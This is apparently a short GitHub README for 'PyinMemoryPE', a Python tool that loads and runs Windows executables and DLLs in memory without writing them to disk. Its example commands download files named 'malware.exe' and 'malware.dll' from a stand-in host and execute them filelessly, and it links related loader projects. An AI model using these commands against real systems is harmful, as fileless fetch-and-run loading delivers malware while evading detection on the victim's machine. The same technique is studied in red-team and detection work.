 Greetings
------------

# PyinMemoryPE
execute any PE (dll,exe) in memory filelessly


# usage

pyMemory.py < url> < TYPe >

# build into exe

use pyinstaller or nuitka and build pymemory.py

or use the prebuilt exe in ./output 

# example

exe : PyexecMemory.exe http://example.com/malware.exe EXE 

dll: PyexecMemory.exe http://example.com/malware.dll DLL --Method DLLRegisterServer

#video demo :(by gemini cyber security)

https://youtu.be/51dctDdCiI0?feature=shared

# Check for more info and resources

https://github.com/naksyn/PythonMemoryModule

https://www.joachim-bauch.de/tutorials/loading-a-dll-from-memory/
